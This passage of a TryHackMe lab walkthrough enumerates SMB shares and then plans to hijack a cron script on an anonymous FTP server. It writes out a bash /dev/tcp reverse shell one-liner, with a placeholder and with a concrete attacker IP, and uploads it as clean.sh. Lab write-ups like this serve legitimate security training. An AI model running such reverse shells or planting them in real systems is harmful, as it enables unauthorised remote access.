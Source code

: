 ![smbclient](https://imgur.com/yQpl6Zv.png)

<pre>Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers
pics            Disk      My SMB Share Directory for Pics
IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))</pre>

The disk share "pics" looks interesting. It says it is used as a directory for "pics".

Let's explore this share.

<pre>smbclient //10.10.37.186/pics</pre>

![ls samba](https://imgur.com/1p041cR.png)

I transferred these over as I did with the FTP files, they are just pictures of dogs. 

![dog1](https://imgur.com/mTwFqHy.png)

![dog2](https://imgur.com/K0Oyjp0.png)

I transferred these over as I did with the FTP files, they are just pictures of dogs.

The only interesting file I found was the script on the ftp server. This script could potentially be a cron job which we could modify to execute our own code.

The software utility **cron** is a **time-based job scheduler** in Unix-like computer operating systems.

Since the FTP allows for anyone to log in, we can upload our own script with an identical name. So let's start by creating our own script on our local machine. 

Refer to this article for a reverse shell cheatsheet:

[Reverse Shell Cheatsheet - CyberGoat](/cheatsheet/Reverse_Payload_Cheatsheet/)

We'll be using this one-liner:

<pre>bash -i &gt;&amp; /dev/tcp/[YOUR TRYHACKME IP ADDRESS]/4444 0&gt;&amp;1</pre>

Look at your interfaces with ifconfig, your TryHackMe IP should be on interface "tun0" on similar. 

Create the file:

![nano](https://imgur.com/NwCUasV.png)

Code:

<pre>#!/bin/bash
bash -i &gt;&amp; /dev/tcp/10.9.6.63/4444 0&gt;&amp;1</pre>

Connect to the FTP server again:

<pre>ftp 10.10.37.186
Anonymous
cd scripts
put clean.sh</pre>
